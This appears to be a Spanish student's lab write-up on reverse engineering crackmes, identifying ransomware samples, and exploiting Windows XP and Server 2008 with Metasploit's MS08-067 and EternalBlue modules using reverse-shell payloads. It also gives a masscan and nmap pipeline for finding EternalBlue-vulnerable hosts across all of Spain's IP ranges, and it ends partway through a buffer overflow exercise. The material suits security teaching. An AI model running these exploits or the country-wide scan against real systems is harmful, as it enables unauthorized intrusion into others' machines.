# Solución Tarea 3 - Ingeniería Inversa y Exploiting

## 1. Ingeniería Inversa

### 1.1 Crackme 0

Al abrir el ejecutable en IDA Pro, se pudo observar la lógica del programa de forma bastante clara. El programa solicita una contraseña y compara la entrada del usuario con un valor hardcodeado en el código, se identificó la contraseña correcta y se validó que el programa daba acceso.


### 1.2 Crackme 1

El segundo desafío resultó más interesante. Al abrir el ejecutable en IDA Pro, se notó que el código estaba comprimido con UPX (Ultimate Packer for eXecutables). Esto es una técnica de ofuscación que dificulta el análisis estático.



Para poder analizar el código real, fue necesario desempaquetarlo. Se utilizó la herramienta UPX con el comando:

```bash
upx -d crackme1.exe
```



Una vez desempaquetado, se pudo cargar el binario nuevamente en IDA Pro. Aunque el código apareció desordenado, se logró identificar la lógica de validación de la contraseña siguiendo el orden de cada una de las letras ejemplo: 'z' en la posición 7Ah, 's' en la posición, etc.


Finalmente se encontró la contraseña correcta y se validó que funcionaba.



### 1.3 Crackme 2 en .NET

El ejecutable estaba desarrollado en .NET. Examinar con IDA Pro no resultó adecuado pues el desensamblado no mostraba código legible como en los casos anteriores.


Para binarios .NET, la herramienta adecuada es ILSpy, la cual facilitó enormemente el análisis.

Al revisar el código, se identificó que la contraseña se construye de forma dinámica usando tres componentes:

1. El nombre de usuario ingresado
2. Un string hardcodeado llamado "elem1"
3. El nombre de la máquina donde se ejecuta




Con esta información, se transformó de base64 "elem1", se construyó la contraseña correcta combinando estos tres elementos y se validó que el programa daba acceso.


### 4. Análisis de Ransomware en ATENEA

#### Ejercicios Completados


#### Ejercicio 1

El primer ejercicio consistía en analizar una muestra de la familia GandCrab.

**Flag:** `gandcrab`


#### Ejercicio 2

El segundo desafío involucraba una muestra de Locky, otro ransomware conocido.

**Flag:** `locky`


#### Ejercicio 3

Para el tercer ejercicio se buscó en la plataforma `https://www.nomoreransom.org/` un desencriptador de Eking ransomware y no fue encontrado.

**Flag:** `Eking`


#### Ejercicio 4

Este ejercicio requería identificar una herramienta específica utilizada por el ransomware. Tras una búsqueda en `Google`, se identificó que se trataba de `vssadmin.exe`.

**Flag:** `vssadmin.exe`


#### Ejercicio 5

En este ejercicio se descargó desde `https://id-ransomware.malwarehunterteam.com/` el desencriptador de este ransomware para las versiones 1, 4 y 5, al desencriptar se encontró el texto: "DontPayRansom!!!".

**Flag:** `DontPayRansom!!!`


#### Ejercicio 6 - WANNACRY

En el último ejercicio se descargó el ransomware WannaCry, se llevó a la MV Kali y se ejecutó un comando string con grep "http" para encontrar todas las `urls` que contenía el código y entre ellas figura el dominio buscado: www.ccncertnomorecryaadrtifaderesddferrrqdfwa.com.

**Flag:** `www.ccncertnomorecryaadrtifaderesddferrrqdfwa.com`



### 5. Ransomware real en .Net

Ejercicio realizado en Windows Sandbox. Se descargó la herramienta ILSpy para desensamblar .Net. Al analizar el ransomware se notó la función del evento on_click de un botón de un formulario. En ella se hace una comparación del valor entrado en la caja de texto 1 con una función que recupera la contraseña. Al revisar dicha función se puede notar que la contraseña se encuentra en un fichero que debió ser creado previamente. Por lo tanto, se buscó entre las funciones del programa una que cree un fichero; en ella se puede encontrar otra función que crea la contraseña. En la función `CreatePass` se puede ver hardcodeada la contraseña del ransomware. Por último, se ejecutó el ransomware en Windows Sandbox y se validó que es la contraseña correcta.







---

## 2. Exploting

### 1. Explotación de Vulnerabilidades - Windows XP

Para explotar la máquina Windows XP, primero se verificó la conectividad y se obtuvo la dirección IP de la máquina objetivo:


Se configuró el exploit correspondiente:

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.56.106
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.102
```




Y al ejecutar el comando `exploit`, se logró entrar en el XP.


### 2. Explotación de Vulnerabilidades - Windows Server 2008

Para Windows Server 2008, se utilizó la vulnerabilidad EternalBlue (MS17-010).

Al ejecutar `ipconfig` en la máquina Windows 2008 se encontró la IP para ejecutar el exploit



Luego, se identificó la vulnerabilidad con nmap:



Luego, se configuró el exploit en Metasploit:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.56.101
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.102
```


Y al ejecutar el comando `exploit`, se logró entrar en el Windows 2008.



### 3. Escaneo Masivo de Vulnerabilidades - EternalBlue en España

Se realizó un escaneo masivo de dispositivos en España para identificar sistemas vulnerables a EternalBlue.

#### 3.1: Obtención de Rangos IP

Primero, se descargaron todos los rangos IP asignados a España en formato CIDR desde IP2Location:

```bash
curl -s https://www.nirsoft.net/countryip/es.csv | tr -d '"\r' | awk -F',' '{print $1"-"$2}' | grep -v "StartIP" > ips_espana.txt
```

Este archivo contiene todos los rangos de IP de España.

#### 3.2: Escaneo Rápido con Masscan

Se utilizó Masscan para realizar un escaneo rápido del puerto 445 (SMB) en todos estos rangos. Masscan es extremadamente rápido y puede escanear millones de IPs en poco tiempo:

```bash
sudo masscan -iL ips_espana.csv -p445 --rate 10000 -oG scan_445.txt
```

Parámetros utilizados:

- `-iL ips_espana.txt`: Lee la lista de rangos CIDR desde el archivo
- `-p445`: Escanea solo el puerto 445 (SMB)
- `--rate 10000`: Envía hasta 10,000 paquetes por segundo
- `-oG scan_445.txt`: Guarda los resultados en formato "greppable"

#### 3.3: Filtrado de Hosts Activos

Una vez completado el escaneo, se filtraron solo las IPs que respondieron en el puerto 445:

```bash
grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" scan_445.txt | sort -u > targets_445.txt
```

Este comando extrae las direcciones IP únicas de hosts que tienen el puerto 445 abierto.

#### 3.4: Verificación de Vulnerabilidad con Nmap

Finalmente, se utilizó Nmap con su script NSE específico para detectar la vulnerabilidad MS17-010:

```bash
sudo nmap -iL targets_445.txt -p445 -Pn --script smb-vuln-ms17-010 -oN reporte_final_eternalblue.txt
```

Parámetros utilizados:

- `-iL targets_445.txt`: Lee la lista de objetivos del archivo
- `-p445`: Verifica el puerto 445
- `-Pn`: No realiza ping (ya sabemos que están activos)
- `--script smb-vuln-ms17-010`: Ejecuta el script que detecta EternalBlue
- `-oN reporte_final_eternalblue.txt`: Guarda el reporte en formato normal

#### POC local

Dado que no se pudo abrir Digital Ocean con crédito, se decidió hacerlo local solo usando uno de los 200 rangos de IP de España.

##### 1. Massscan


##### 2. Nmap


### 4. Test 1

Explotación del buffer test 1. Se siguieron los pasos guiados en el manual:

#### 4.1 Identificación de la Vulnerabilidad

Primero, se ejecutó el programa y se provocó un crash enviando más datos de los que el buffer podía contener. Esto confirmó que existía una vulnerabilidad de buffer overflow.


#### 4.2 Análisis con Debugger

Se utilizó `Immunity Debugger` para analizar el comportamiento del programa durante el crash. Esto permitió ver exactamente cómo se sobrescribía la pila y qué registros eran afectados.



#### 4.3 Cálculo del Offset

Se ejecutó `!mona pc 300` para generar un patrón circular y luego con ello se ejecutó `!mona findmsp` para calcular el offset.


#### 4.4 Validar la distancia

Al ejecutar de nuevo el debugger se pudo ver que se han puesto las "Bs" en la dirección de memoria deseada.


#### 4.5 Estableciendo el Control del EIP

Una vez conocido el offset, se modificó el exploit para enviar exactamente esa cantidad de bytes de relleno, seguido de la dirección a la que se quería saltar. Luego se utilizó una instrucción JMP ESP para marcar el `breakpoint`.




#### 4.6 Inyección de Shellcode

Finalmente, se agregó el shellcode que ejecutaría la calculadora de Windows (calc.exe). Esto demuestra que se tiene control total sobre el flujo de ejecución del programa.





### 5. Test 2

Para el segundo ejercicio se siguió el mismo proceso metodológico:

#### 5.1 Crash Inicial

Primero, se provocó el crash del programa para confirmar la vulnerabilidad.


#### 5.2 Análisis en Debugger

Se analizó el crash en el debugger para entender cómo se comportaba la pila.



#### 5.3 Cálculo del Offset con Patrón Cíclico

Se utilizó el mismo método de patrón cíclico para calcular el offset exacto:




